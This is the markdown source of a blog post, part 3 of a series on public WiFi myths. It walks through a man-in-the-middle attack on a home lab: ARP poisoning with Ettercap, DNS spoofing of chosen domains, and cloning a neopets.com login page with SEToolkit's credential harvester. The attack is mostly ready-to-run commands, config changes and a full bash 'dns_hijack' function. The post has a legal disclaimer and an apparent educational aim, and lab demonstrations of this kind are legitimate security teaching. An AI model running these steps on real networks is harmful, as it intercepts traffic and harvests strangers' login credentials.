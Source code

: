 ```yaml
---
layout: post
title:  "The Myths Of Public WiFi - Pt3. Is HTTP Is Safe If You Don't Log In?"
date:   2018-11-22 14:56:03 -0400
categories: jekyll update
---
```


<br>[Part 2 (Can Your Private Information Be Stolen?)][part-2]

<b>Legal Disclosure: Don't do this on networks other than your own without written consent from the network administrator. Otherwise, you would be committing an illegal act.</b>

In our last article, we learned how sensitive login information can be compromised. We can infer that just about any private input can be monitored if the traffic is unencrypted. But what if we have nothing to hide? If we have nothing to hide, then it should follow that we should have nothing to fear. While this line of reasoning is common among the tech consumers and even security professionals, the next two articles will prove the risk involved with running static HTTP pages.

<b>Roadmap</b>

-Answering basic questions

-Modifying our ARP poisoned (Ettercap) config files to allow DNS spoofing.

-Modifying our site cloner (SEToolkit) config file for HTTP.

-Using Wireshark to see what websites the user is using.

-Writing a script to automatically poison and spoof the domain that the victim is visiting.

-Make a fake copy of the target website.

<b>What is a DNS and why is it important?</b>

You may have heard network technicians throw the term around. The concept is very simple. No one wants to remember phone numbers. We create contact lists and call people by tapping their name. A DNS is a contact list for IP's. For example, the google.com domain in my area is 216.58.192.174. If you want to see a web domain's IP address, simply type

{% highlight ruby %}
nslookup example.com
{% endhighlight %}

A DNS is important to the attacker. The attacker can change the IP location of a domain to his own computer. This means that instead of loading example.com at 93.184.216.34, example.com will go to 192.168.1.4 (or whatever your local IP is). This means the attacker can create a phishing page, or even execute malicious code. Even if the viewer is reading the .com]], simply clicking on something on within the website could bring up a fake Facebook login page. While the more security conscious people will immediately see the suspicious cause and effect relationship, the transition is so seamless that the average user will just assume his browser "glitched" and he will simply have to log in again. While services like Facebook have Two Factor Authentication, a [sophisticated attacker][2FA] can create a phish for that as well.

<b>Can HTTPS be redirected?</b>

There are plenty of articles and tutorials that claim to have broken HTTPS with tools like SSLStrip. But as I mentioned before, this tactic is useless. HTTPS not only encrypts, but modern browsers use a complex verification process to protect against redirecting to fake IP's.

<b>Monitoring traffic in real time</b>

As the attacker, you will need to know what HTTP websites the user is visiting before setting up the attack. In the past, we have used tshark in order to save capture files for later viewing. DNS hijacking will require real-time traffic monitoring so we know which domain to spoof. Just as before, poison the arp tables and filter the traffic while it is running.

{% highlight ruby %}
poison
{% endhighlight %}

You will need to open up Wireshark while the victim's traffic is being routed through your computer. Open a new terminal tab and type

{% highlight ruby %}
sudo wireshark
{% endhighlight %}

Depending on how you set up Wireshark upon the first install, you may receive an error that looks like this. Simply accept it, then click the blue fin in the upper left to begin the live capture process.

![image tooltip](/blog/images/wifi/wiresharkwarning.JPG)

As the traffic is flooding in, type "dns" into the filter. Once you have a good idea of what the victim is browsing, you can stop Wireshark then quit the Ettercap poison script by pressing q. Once you have a good idea of what he or she is browsing, you can put in our custom hijack commands. This is what a real life scenero would look like. Since we are on our home network where everything is legal, we must first set up the operation. For now we are just going to assume our target is playing neopets.com while doing work for his employer over the web. We will assume he uses the same username and password for both accounts.

<b>Setting up the initial files</b>

We need to start by modifying a few configuration files for Ettercap. The first is etter.conf which is the config file that holds all the Ettercap settings. The next is etter.dns which is our DNS contact list. Once we are finished with that, we will configure the SEToolkit config file.

{% highlight ruby %}
#Start by making a backup copy of etter.conf and etter.dns

sudo cp /etc/ettercap/etter.conf /etc/ettercap/etter.original.conf
sudo cp /etc/ettercap/etter.dns /etc/ettercap/etter.original.dns

#Make a blank modified version of etter.conf
sudo cp /etc/ettercap/etter.conf /etc/ettercap/etter.hijack.conf
sudo cp /etc/ettercap/etter.dns /etc/ettercap/etter.blank.dns
{% endhighlight %}

First, edit the DNS file. And by edit, I mean make a blank copy.

{% highlight ruby %}
sudo nano /etc/ettercap/etter.blank.dns
#Once the file is open, press Ctrl+K until all the lines are deleted and the entire file is empty
#Press Ctrl+O to save out. Then Ctrl+X to exit
{% endhighlight %}

Now we need to modify the hijacked config file. We will address 4 specific lines.

{% highlight ruby %}
sudo nano /etc/ettercap/etter.hijack.conf
{% endhighlight %}

Now that we are inside the file, look for the following lines and change their value to zero

{% highlight ruby %}
ec_uid = 0                # nobody is the default
ec_gid = 0                # nobody is the default
{% endhighlight %}

This means Ettercap has the privileges to write data. The default is 65534 (nobody)

Press Ctrl+O to save out. Then Ctrl+X to exit

Next, configure our site cloning tool SEToolkit.

{% highlight ruby %}
sudo nano /etc/ettercap/set.config
{% endhighlight %}

Press Ctrl+W and type "APACHE" and make the following changes

{% highlight ruby %}
APACHE_SERVER = ON
APACHE_DIRECTORY=/var/www/html
{% endhighlight %}

Save with Ctrl+O and exit with Ctrl+X.

<b>Making life easier with the .bashrc file</b>

The first thing we will need to do is create an environment variable. You may have noticed a few at the top already. This new one will be able to hold multiple values in case we want to attack multiple domains. I will add in example.com just to demonstrate, but today we will only need to worry about neopets.com.

{% highlight ruby %}
dns_hijack_target=('example.com' 'neopets.com' );
#We can add as many sites as we want. Seperated by spaces.
{% endhighlight %}

Now go to the bottom of all your functions and add the following

{% highlight ruby %}
function dns_hijack ()
{
#forward IP
sudo sysctl -w net.ipv4.ip_forward=1;

#copies the modified files
sudo rm /etc/ettercap/etter.conf;
sudo cp /etc/ettercap/etter.hijack.conf /etc/ettercap/etter.conf;
sudo rm /etc/ettercap/etter.dns;
sudo cp /etc/ettercap/etter.blank.dns /etc/ettercap/etter.dns;

#adds all the domains in $dns_hijack_target to the blank DNS file.
for ((i = 0; i < ${#dns_hijack_target[@]}; i++))
        do
        echo ${dns_hijack_target[i]}"      A   "$myIP | sudo tee -a /etc/ettercap/etter.dns; 
        echo "*."${dns_hijack_target[i]}"    A   "$myIP | sudo tee -a /etc/ettercap/etter.dns;
        done

#opens a webserver
sudo systemctl start apache2;

#poisons the ARP table using the DNS spoof plugin (-P dns_spoof)
sudo ettercap -T -i $adp -P dns_spoof -M arp:remote /$targetIP// /$gatewayIP//;

#when the operation is complete, the script will automaticly close the server and turn off IP forwarding.
sudo systemctl stop apache2;
sudo sysctl -w net.ipv4.ip_forward=0;
}
{% endhighlight %}

Press Ctrl+O to save out. Then Ctrl+X to exit. Exit out of the terminal in order to have the changes take effect.

<b>Test</b>

Start by running the command we just created

{% highlight ruby %}
dns_hijack
{% endhighlight %}

Go into your Windows VM and access your attacking VM's local IP. For example, mine is 192.168.1.4. You should see something that looks like this. It means your web server is working

![image tooltip](/blog/images/wifi/apache200.JPG)

Now access example.com

If you see the same thing, then this means the redirect is working as well.

<b>Clone the target login form</b>

Next we will need to make a copy of the neopets.com website. Open terminal and type

{% highlight ruby %}
sudo setoolkit

#Once inside, choose these options in order
1 Social-Engineering Attacks
2 Website Attack Vectors
3 Credential Harvester Attack Method
2 Site Cloner
{% endhighlight %}

In your Windows VM, go to neopets.com and log in. Once that is done, SEToolkit will send display the credentials in the terminal window.

Go to your /var/www/html directory and open the harvester text file. You should see the login credentials displayed as well.

<b>Conclusion</b>

Websites that use HTTP can still be vulnurable to phishing scams. Even if the attacker is not trying to phish for the user credentials, he could still make a page that executes mallicious code. This attack will only work if the user does not notice how little sense it makes for a link on an http website to redirect to a login page on a different service alltogether. Half the population will proborbly fall for this, but I have not run the study myself due to obvious legal concerns. The DNS redirect attack I just described will only work if you already know what HTTP websites the user is currently browsing.

[Part 4 (If I See The Lock In My Browser's URL, Does That Mean I'm Safe?)][part-4]

[part-1]: https://danielloosec.github.io/blog/jekyll/update/2018/11/22/PublicWifiMyths_Part_1.html
[part-4]: https://danielloosec.github.io/blog/jekyll/update/2018/11/22/PublicWifiMyths_Part_4.html
[reddit.com]: http://www.reddit.com
[part-2]: https://danielloosec.github.io/blog/jekyll/update/2018/11/22/PublicWifiMyths_Part_2.html
[2FA]:https://youtu.be/xaOX8DS-Cto